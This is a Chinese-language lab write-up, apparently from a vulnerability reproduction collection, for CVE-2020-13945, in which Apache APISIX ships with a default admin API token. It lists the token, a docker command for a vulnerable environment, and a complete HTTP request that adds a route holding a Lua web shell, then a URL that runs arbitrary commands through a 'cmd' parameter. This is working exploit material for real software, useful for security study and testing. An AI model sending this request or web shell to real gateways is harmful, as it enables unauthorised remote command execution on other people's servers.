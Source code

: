 # Apache APISIX 默认API Token导致远程Lua代码执行（CVE-2020-13945）

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 漏洞环境

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
